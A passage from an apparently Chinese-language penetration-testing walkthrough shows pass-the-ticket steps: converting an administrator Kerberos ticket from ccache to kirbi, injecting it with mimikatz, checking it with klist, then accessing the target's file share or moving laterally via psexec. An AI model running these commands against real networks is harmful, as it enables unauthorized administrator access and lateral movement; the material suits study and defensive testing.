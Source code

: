 [![](assets/1702372846-b50bb45d4903967feb6e0131c2c0b8f8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123608-83b309d6-6bb1-1.png)

将生成的适合 Linux 使用的 ccache 格式转换为 Windows 的 kirbi

```plain
py -3 .\ticketConverter.py .\administrator.ccache .\administrator.kirbi
```

[![](assets/1702372846-1962b6f307ad2da47f92938f9d1c7acc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123615-8814309a-6bb1-1.png)

通过 mimikatz 加载票据

```plain
kerberos::ptt C:\Python38\Scripts\administrator.kirbi
```

[![](assets/1702372846-a11c8df54fec783c5a3653c4a5286ad1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123621-8bb3e8d0-6bb1-1.png)

此时即可正式利用，可通过 klist 查看票据确实注入了。然后直接对目标的 cifs 进行 dir 操作，或通过 psexec 等横向手法横向即可。如下图所示：
